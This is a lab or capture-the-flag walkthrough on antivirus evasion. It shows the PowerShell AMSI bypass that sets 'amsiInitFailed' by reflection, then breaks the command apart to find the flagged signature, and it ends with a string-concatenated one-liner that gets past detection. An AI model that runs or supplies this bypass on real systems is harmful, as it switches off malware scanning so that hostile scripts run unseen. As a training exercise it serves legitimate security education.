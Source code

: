 To get you started, we recommend breaking up each section of the code and observe how it interacts or is detected. You can then break the signature present in the independent section and add another section to it until you have a clean snippet.

Once you think your snippet is sufficiently obfuscated, submit it to the webserver at `http://10.10.95.159` ; if successful a flag will appear in a pop-up.

If you are still stuck we have provided a walkthrough of the solution below.


### Practical
---

To begin with, let's check how the system interacts when the code is not obfuscated:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

This script contains malicious content and has been blocked by your antivirus software.                                     + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException                                       + FullyQualifiedErrorId : ScriptContainedMaliciousContent 
```

As seen, we get an alert saying the script is malicious, let's break it down to check which part is the malicious one:

```powershell
PS M:\\> [Ref].Assembly.GetType('System')
PS M:\\> [Ref].Assembly.GetType('System.Management')
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation')
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
At line:1 char:1
+ [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

As seen, the issue occurs on the `AmsiUtils` section, let's use concatenation on that:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils')
```

Once we do that will all the command, we will get the following at the end:

```powershell
PS M:\\> $Value="SetValue"
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils').GetField('amsi'+'Init'+'Failed','No'+'nPublic,S'+'tatic').$Value($null,$true)
```

We are separating the `$Value` variable to avoid the AV detection, and we simply apply more concatenation on the other values.
